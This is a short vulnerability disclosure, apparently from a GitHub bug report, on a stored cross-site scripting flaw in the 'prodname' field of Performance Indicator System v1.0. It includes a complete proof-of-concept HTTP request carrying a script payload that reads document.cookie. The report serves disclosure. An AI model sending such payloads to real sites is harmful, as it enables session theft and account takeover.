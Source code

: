 # Performance Indicator System v1.0 has stored cross-site scripting

BUG_Author: BaiXiJun

Website source code address: https://www.sourcecodester.com/php/11638/performance-indicator-system.html

Vulnerability File: /opils/admin/addproduct.php

post form parameters "prodname" exists stored cross-site scripting vulnerability

```
POST /opils/admin/addproduct.php HTTP/1.1
Host: localhost
Content-Length: 708
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiJHYays1OlY0KkQr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/opils/admin/product.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: __atuvc=2%7C20; PHPSESSID=k9h36uumt85ueqglvvv3imaap0
Connection: close

------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="prodname"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="prodcategory"

1
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="proprice"

1
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="prodpromo"

0
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="pqty"

2
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryiJHYays1OlY0KkQr--
```

Payload will trigger when a user visits on http://localhost/opils/admin/product.php

![image](https://github.com/wenwochunfeng/bugReport/blob/main/1.png)
